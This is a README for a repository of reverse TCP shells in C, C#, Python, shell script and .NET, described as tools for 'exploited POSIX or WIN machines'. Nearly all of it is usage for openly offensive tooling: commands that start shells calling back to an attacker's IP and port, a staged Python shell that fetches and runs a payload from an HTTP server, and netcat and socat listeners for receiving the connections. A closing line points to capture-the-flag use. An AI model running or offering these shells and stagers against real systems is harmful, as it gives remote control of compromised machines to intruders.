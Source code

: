 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited POSIX or WIN machines

# C Reverse Shell (POSIX ONLY)
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell (POSIX ONLY)
  If dotnet is installed on the system you may use the C# program
  
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell (POSIX ONLY)
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
  # Staged Python Shell (POSIX ONLY)
  If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address

  to call a staged shell run the following command:

    python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell (POSIX ONLY)
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
 # Windows Reverse Powershell (WIN ONLY)
  Since none of the other methods work on windows the reverse_tcp.exe is a .NET executable with the same ease of use as the others
  
  To run this on a target simply run it from the command line like so:
  
    .\reverse_tcp.exe [callback_ip] [port]
    
    
# Attacker Listener
  These reverse shells were all written for ease of use, attackers can open a simple netcat or socat listener to receive the payloads
  
  Netcat:
  
    nc -nvlp [port]
    
  Socat:
  
    socat -d -d TCP4-LISTEN:[port] STDOUT
    
  A note for these is they will only work for the POSIX payloads
  
  In order to listen for the Windows payload the command has to be slightly tweaked
  
  Windows Listener:
  
    stty raw -echo; (stty size; cat) | nc -nvlp [port]
    
    Note: this will wreck your shells sizing so start a new window for each use
    
  Now start looking for those flags happy hacking! XD
  
    
    
